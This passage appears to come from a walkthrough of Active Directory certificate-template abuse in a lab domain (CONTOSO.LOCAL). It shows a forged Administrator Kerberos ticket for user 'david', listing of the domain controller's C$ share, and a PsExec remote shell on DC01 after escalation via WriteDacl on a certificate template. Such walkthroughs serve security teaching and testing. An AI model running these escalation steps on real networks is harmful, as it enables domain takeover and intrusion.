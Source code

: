 ```
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 9/30/2021 10:02:20 PM
  LogonServer              : DC01
  LogonServerDNSDomain     : CONTOSO.LOCAL
  UserPrincipalName        : david@contoso.local

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 9/30/2021 10:30:17 PM ; 10/1/2021 8:30:17 AM ; 10/7/2021 10:30:17 PM
      Server Name       : krbtgt/contoso.local @ CONTOSO.LOCAL
      Client Name       : Administrator @ CONTOSO.LOCAL
      Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)


C:\Tools>dir \\dc01.contoso.local\C$
 Volume in drive \\dc01.contoso.local\C$ has no label.
 Volume Serial Number is BE65-6495

 Directory of \\dc01.contoso.local\C$

09/15/2018  12:19 AM    <DIR>          PerfLogs
09/12/2021  07:34 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
09/12/2021  04:09 AM    <DIR>          Tools
09/12/2021  07:33 PM    <DIR>          Users
09/30/2021  07:35 AM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  51,451,158,528 bytes free

C:\Tools>
```

Now we achieved domain escalation by abusing WriteDacl for a certificate template:

```
C:\Tools>whoami /user

USER INFORMATION
----------------

User Name     SID
============= =============================================
contoso\david S-1-5-21-3654360273-254804765-2004310818-1104

C:\Tools>PsExec64.exe -accepteula \\dc01.contoso.local cmd.exe

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
DC01

C:\Windows\system32>whoami /user

USER INFORMATION
----------------

User Name             SID
```